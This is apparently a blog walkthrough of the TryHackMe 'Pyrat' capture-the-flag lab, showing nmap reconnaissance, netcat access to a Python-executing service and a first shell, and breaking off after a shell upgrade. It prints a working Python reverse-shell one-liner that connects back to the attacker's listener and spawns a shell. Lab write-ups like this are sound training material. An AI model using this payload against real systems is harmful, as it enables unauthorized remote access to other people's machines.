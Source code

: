```yaml
---
title: "TryHackMe - Pyrat"
date: 2025-02-23 22:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [python, exploitation, rce, brute force]

---
```



## Introduction
In this walkthrough, I will detail how I solved the **Pyrat CTF challenge**. The goal was to escalate privileges and retrieve the flags using various security techniques.

## Initial Reconnaissance
First, I scanned the target with **Nmap** to identify open ports:
```console
nmap -sC -sV -Pn 10.10.127.248
```
The scan revealed an open HTTP port **8000**. Upon visiting `http://10.10.127.248:8000`, a message was displayed:
> "Try a more basic connection!"

This hinted at using **Netcat** instead of a browser:
```console
nc 10.10.127.248 8000 -v
```
I was able to establish a connection and test command execution:
```python
print("test")
```
The server responded positively, confirming **Python code execution**.

## Gaining Initial Shell
From the CTF description, I knew the server had an **RCE vulnerability** in Python. I created a reverse shell:

```terminal
nc -lvnp 4445
```
At attacking machine
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.21.77",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
Executing this payload granted me a **shell as www-data**. To upgrade to a proper interactive shell:
```terminal
SHELL=/bin/bash script -q /dev/null
```
